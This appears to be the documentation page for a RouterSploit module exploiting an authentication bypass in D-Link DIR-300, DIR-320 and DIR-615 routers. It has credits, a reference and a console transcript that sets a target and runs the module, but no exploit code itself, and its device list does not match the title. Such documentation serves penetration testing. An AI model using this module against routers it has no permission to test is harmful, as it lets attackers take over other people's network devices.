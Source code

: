 # D-Link DIR-300 & DIR-320 & DIR-615 Auth Bypass

## Description
Module exploits authentication bypass vulnerability in D-Link DIR-300, DIR-320, DIR-615revD devices. It is possible to access administration panel without providing password.

## Authors
* Craig Heffner # vulnerability discovery
* Karol Celin # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.devttys0.com/wp-content/uploads/2010/12/dlink_php_vulnerability.pdf](http://www.devttys0.com/wp-content/uploads/2010/12/dlink_php_vulnerability.pdf)

## Vulnerable devices
* D-Link DIR-300
* D-Link DIR-600
* D-Link DIR-615 revD

## Usage
```
rsf > use exploits/dlink/dir_300_320_615_auth_bypass
rsf (D-Link DIR-300 & DIR-320 & DIR-615 Auth Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (D-Link DIR-300 & DIR-320 & DIR-615 Auth Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-300 & DIR-320 & DIR-615 Auth Bypass) > run
[*] Running module...
```
